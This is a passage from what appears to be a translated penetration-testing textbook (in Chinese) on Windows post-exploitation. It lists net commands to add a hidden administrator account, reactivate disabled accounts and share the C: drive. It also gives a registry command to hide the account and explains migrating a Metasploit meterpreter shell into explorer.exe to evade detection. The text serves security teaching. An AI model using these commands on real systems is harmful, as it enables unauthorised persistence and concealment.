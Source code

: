 <colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

描述

 |
| --- | --- |
| `net user attacker password /add` | 创建一个新的本地帐户，用户名为`attacker`，密码为`password`。 |
| `net localgroup administrators attacker /add` | 将新用户`attacker`添加到本地管理员组。在某些情况下，命令将为`net localgroup administrators /add attacker`。 |
| `net user username /active:yes /domain` | 将非活动或禁用的帐户更改为活动帐户。在小型组织中，这会引起注意。密码管理不善的大型企业可以将其 30%的密码标记为“非活动”，因此这可能是获得帐户的有效方法。 |
| `net share name$=C:\ /grant:attacker,FULL /unlimited` | 将`C:`（或另一个指定的驱动器）共享为 Windows 共享，并授予用户（攻击者）访问或修改该驱动器上所有内容的完全权限。 |

如果您创建了一个新的用户帐户，当任何人登录到系统的欢迎屏幕时都会注意到。要使帐户不可见，您需要使用以下`REG`命令从命令行修改注册表：

```
REG ADD 
  HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion
  \WinLogon\SpecialAccounts\UserList /V account_name /
  T REG_DWORD /D 0 

```

这将修改指定的注册表项以隐藏用户的帐户（`/V`。同样，基于目标操作系统的特定版本，可能会有特殊的语法要求，因此首先确定 Windows 版本，然后在受控测试环境中对其进行验证，然后再针对目标实现它。

# 使用 Metasploit 进行开发后活动

Metasploit 是开发的，用于支持利用和利用后活动。当前版本包含大约 200 个模块，可简化利用漏洞后的活动。我们将回顾一些最重要的模块。

在下面的屏幕截图中，我们成功地利用了 Windows XP 系统（一种“经典”攻击，通常用于验证`meterpreter`更复杂的方面）。第一步是立即对网络和受损系统进行侦察。

初始`meterpreter`外壳易碎，在较长时间内容易发生故障。因此，一旦系统被开发，我们将迁移 shell 并用更稳定的进程绑定它。这也使得检测利用漏洞更加困难。

在`meterpreter`提示下，输入`ps`获取正在运行的进程列表，如下图所示：

![Using Metasploit for post-exploit activities](graphics/3121OS_05_07.jpg)

`ps`命令还返回每个进程的完整路径名。上一个屏幕截图中忽略了这一点。该`ps`列表标识该`c:\windows\Explorer.EXE`正在运行。在这种特殊情况下，它用过程 ID`1460`标识，如下面的屏幕截图所示。由于这是一个通常稳定的应用程序，我们将把 shell 迁移到该进程中。

![Using Metasploit for post-exploit activities](graphics/3121OS_05_08.jpg)

现在我们已经有了到远程系统的稳定 shell 连接，我们将使用支持攻击后活动的`meterpreter`脚本。

首先要确定的参数之一是：我们是否在虚拟机上？当受损系统和攻击者之间的`meterpreter`会话打开时，会发出`run checkvm`命令，如下图所示。返回的数据表明`This is a VMware Virtual Machine`。

![Using Metasploit for post-exploit activities](graphics/3121OS_05_09.jpg)
